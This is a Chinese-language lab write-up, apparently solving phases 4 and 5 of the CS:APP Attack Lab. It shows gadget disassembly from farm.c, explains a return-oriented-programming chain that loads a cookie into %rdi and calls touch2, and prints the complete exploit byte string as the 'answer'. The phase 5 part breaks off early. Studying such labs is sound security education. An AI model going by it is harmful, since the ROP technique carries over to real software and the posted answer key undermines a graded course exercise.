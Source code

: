 ### phase4 
注入代码(每行在后面加个ret (c3)):
```c
inject_code.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	58                   	pop    %rax
   1:	89 c7                	mov    %eax,%edi
```

在farm.c的反汇编代码里里面找得到：

401ac9:58 c3  pop    %rax  ret:
```c
0000000000401ac7 <addval_483>:
  401ac7:	8d 87 58 90 90 c3    	lea    -0x3c6f6fa8(%rdi),%eax
  401acd:	c3                   	retq   
```
401abb:48	89 c7 90 c3               	mov    %rax,%rdi ret
```c
0000000000401ab9 <setval_246>:
  401ab9:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  401abf:	c3      
```

先调用 401ac9 地址下的 pop    %rax 取出栈里下一行的cookie ， 然后ret返回
再调用 401abb 地址下的 mov    %rax,%rdi 将cookie值传入寄存器rdi中 ， 然后ret返回
最后调用touch2()函数完成攻击。

答案就是:
```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c9 1a 40 00 00 00 00 00
f0 10 75 7d 00 00 00 00
bb 1a 40 00 00 00 00 00
e6 18 40 00 00 00 00 00
```

### phase5
确定最终目标:
```c
mov <字符串地址>  , %rdi
```
因为加上了栈随机，所以可以根据栈顶地址玩偏移。
现成的偏移函数:
```c
0000000000401adb <add_xy>:
  401adb:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  401adf:	c3                   	retq     
```

